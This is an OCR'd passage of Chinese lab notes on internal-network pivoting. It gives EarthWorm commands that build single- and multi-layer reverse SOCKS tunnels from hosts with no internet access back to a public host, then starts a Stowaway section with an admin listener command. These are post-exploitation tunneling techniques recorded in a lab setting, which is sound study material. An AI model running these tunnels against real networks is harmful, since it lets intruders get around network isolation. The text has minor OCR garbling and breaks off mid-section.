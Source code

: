 ### 单层代理

```
# 具有公⽹IP的主机上执⾏如下命令
./ew_for_MacOSX64 -s rcsocks -l 1080 -e 8888
# ⽬标不出⽹主机上启动SOCKS v5服务并反弹到公⽹主机的8888端
ew_for_linux64 -s rssocks -d 192.168.0.100 -e 8888
```

### 多层代理

这里最好还是用反向代理的方式最好

```
# 具有公⽹IP的主机上监听1080端⼜并转发给本地8888端⼜
./ew_for_MacOSX64 -s rcsocks -l 1080 -e 8888
# ⽬标不出⽹主机A将具有公⽹IP的主机的8888端⼜和内⽹主机B的9999端⼜连接起来
ew_for_Win.exe -s lcx_slave -d 192.168.0.100 -e 8888 -f 192.168.121.6 -g 9999 -t 1000000
# 内⽹主机B开启SOCKS v5服务并反弹到内⽹主机B的9999端⼜
ew_for_Win.exe -s ssocksd -l 9999 -t 1000000
```

# Stowaway

因为实在受不了这些工具没有ARM架构的linux可执行文件了，所以这里内网环境做了变更，我用两台windows的环境做一个两层内网，对于三层及多层其实和二层是一样的

本机192.168.43.21

用win11（192.168.43.33），内网为（10.121.10.3）

win11的克隆作为内网机器（10.121.10.4，10.121.20.3）

## 单层网络

本机起服务端等待连接，连接密码DawnT0wn，监听端口9999

```
./admin -l 9999 -s DawnT0wn
```
